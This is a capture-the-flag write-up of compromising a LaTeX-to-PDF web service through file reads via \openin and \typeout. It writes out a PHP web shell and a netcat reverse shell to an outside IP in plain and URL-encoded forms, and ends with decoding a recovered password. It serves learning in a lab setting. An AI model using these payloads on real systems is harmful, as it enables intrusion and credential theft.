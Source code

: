 # LaxCTF

"Try Harder!"

This one was tough, but fun. I learnt a lot more than I would like about latex.

First, only 22 and 80 are open. 80 reveals a 'TexMaker' website, where you can enter LaTeX script and have it compiled into a PDF for you.

I immediately investigated reading files into the output (LFI) and executing shell commands through LaTeX. 

> The docs, by the way, for LaTeX are truly hideous - how has it survived and thrived for so long with such shit documentation?

I found this blog: https://0day.work/hacking-with-latex/. It shows several LaTeX abuse techniques, and over the next six hours or so I experimented with them:

- First, shell execution is right out (as far as I can tell). The common commands `immediate`, `write18` or `input|` were all blocked. Even the `\def` trick the blog specifies at the end didn't result in any code execution, so I assumed all shell escapes were turned off (later confirmed).

- Second, I could read files anywhere. I read `\etc\passwd` but it failed, likely due to latex interpreting `_` as a command character and the system having at least one user like `_apt`; I could do partial extraction via not looping but just going line by line, however I eventually found a better technique: rather than using `\text` to emit the line to the generated PDF, if I used `\typeout` I could write to the compile log which is printed on the page:

    ```
    \newread\file
    \openin\file=/etc/passwd
    \loop\unless\ifeof\file
        \read\file to\fileline 
        \typeout{\fileline}
    \repeat
    \closein\file
    ```

- Third, writing anywhere didn't work. I could write files with no path, so local, but I didn't know where that directory was and so couldn't emit a shell or anything.

With no shell commands, I figured my best bet was going to be adding some PHP to the website somewhere. I knew it was PHP because `dirb` revealed a 200 code for `config.php` (it also revealed a few listable directories, like where the pdf's go).

Using my `typeout` technique, I was able to fully read `/etc/passwd` and found an entry for `/home/king`. Guessing the user flag would be `user.txt`, I successfully read it using the same technique.

At this point, my chief focus was finding where the web directory was. I tried lots of things, even trying to guess various `/var/www/` paths, to no avail. Finally, via this blog https://highon.coffee/blog/lfi-cheat-sheet/, I found out about `/proc/self/environ`. Reading that partially failed, but I got enough of the content to reveal the `OLDPWD` of the current user was `/var/www/html/Latex`. Boom!

Reading `config.php` revealed the existence of a `/compile` path. I had tried writing files to `/pdf` and `/assets` but they hadn't worked. Writing a `.php` to `/var/www/html/Latest/compile/test.php` did work though, and I was able to browse to it! I promptly used the following to create a simple PHP web shell:

    \newwrite\outfile
    \openout\outfile=shell.php
    \write\outfile{<?php if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>}
    \closeout\outfile

    some random text to ensure pdf is created

Going to `/compile/shell.php?cmd=whoami` got that magic `www-data`. To get a reverse shell I used this script:

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.178.75 4444 >/tmp/f

Though since it had to be in the query string, I first encoded it to url with Burp:

    %72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%37%38%2e%37%35%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66

Once on the machine, I tried `sudo -l` and `find / -user root -perm -u=s` without success. I checked out that suspicious entry from the bottom of `/etc/passwd`: `/opt/secret`, and found a file readable and executable by everyone that looked to be (via its first line) a aes/cbc/128 encoded file. I've saved it here as [laxctf.secret](./laxctf.secret).

I spent another huge amount of time (~4 hours) enumerating. I found a apk file under the website, but after running it through strings and decoding it via unzip it didn't seem to contain anything. I also found a script owned by `king` called `cleanpdfdir.sh`, but adding a test `echo "cat /etc/passwd > passwd.txt" >> cleanpdfdir.sh` didn't produce results.

Eventually I gave up, and went for some help. This directed me straight back to the apk, and a tool I was unaware of: apktool: https://ibotpeaches.github.io/Apktool/documentation/

I used this to decode the apk, and while crawling through its files, I found in `smali/com/example/a11x256/frida_test/my_activity.smali` code like the following:

    .prologue
    .line 90
    :try_start_0
    const-string v3, "sUp3rCr3tKEforL!"

    .line 91
    .local v3, "pre_shared_key":Ljava/lang/String;
    const-string v1, "sUp3rCr3tIVforL!"

    .line 92
    .local v1, "generated_iv":Ljava/lang/String;
    const-string v5, "AES/CBC/128"

Using that via an [online AES decoder](https://www.devglan.com/online-tools/aes-encryption-decryption) I got the following a huge brainfuck script (easily determined via its syntax: `----[---->+<]>--.+[--->+<]>+.[--->+<]>+.[->+++++` etc.). Running that through [a brainfuck interpreter](https://www.dcode.fr/brainfuck-language) gave me what looked a bit like base64. Running *that* through [cyberchef](https://gchq.github.io/CyberChef) didn't decode, however. 

But, one thing I noticed, was that the supposed base64 started with `=`; normally base64, if it has these, adds them at the end as padding. 

A bit of experimenting revealed the solution: reverse -> from base64 * 16 (yes, decode from base64 16 times) which finally gave: 

    king:tryh@ckm3w4sH3r3